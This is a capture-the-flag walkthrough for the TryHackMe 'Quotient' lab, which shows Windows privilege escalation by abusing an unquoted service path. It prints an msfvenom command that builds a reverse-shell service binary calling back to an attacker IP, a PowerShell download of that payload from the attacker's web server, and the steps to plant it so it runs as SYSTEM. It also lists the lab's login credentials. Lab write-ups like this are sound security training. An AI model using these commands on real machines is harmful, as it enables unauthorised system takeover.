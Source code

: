```yaml
---

title: Walkthrough - Quotient
published: true
---
```


Tags: Security, Windows, Privilege Escalation, Unquoted Path.
Description: Grammar is important. Don't believe me? Just see what happens when you forget punctuation.
Difficulty: Easy
URL: [https://tryhackme.com/room/quotient](https://tryhackme.com/room/quotient)

* * *

## Notes

> Grammar is important. Don't believe me? Just see what happens when you forget punctuation. Access the machine using RDP with the following credentials:
> Creds: sage:gr33ntHEphgK2&V

Unquoted service path! If the path to an executable is not inside quotes, Windows will try to execute every ending before a space.

To list unquoted service paths:

- `wmic service get name,displayname,pathname,startmode |findstr /i "Auto" | findstr /i /v "C:\Windows\\" |findstr /i /v """`

This command shows us this unquoted service path

```
Developmenet Service                                                                Development Service                       C:\Program Files\Development Files\Devservice Files\Service.exe                    Auto
```

So if we create a executable and get it into the program files folder we can get it to send us back a reverse shell as system.

- `msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.2.127.225 LPORT=6666 -f exe-service -o service.exe`

1. setup python webserver and `PS C:\Users\Sage> Invoke-WebRequest -Uri "http://10.2.127.225/Service.exe" -OutFile "Service.exe"` on the target machine.
2. Give everyone permissions `icacls C:\Users\Sage\Service.exe /grant Everyone:F`
3. Copy the service.exe to the Development Files directory and rename Devservice.exe.

![](/assets/quotient01.png)

We dont have permissions to start and stop the service but a restart of the system will do this, and should send us a shell.

* * * 

## Admin Flag

![](/assets/quotient02.png)

* * * 

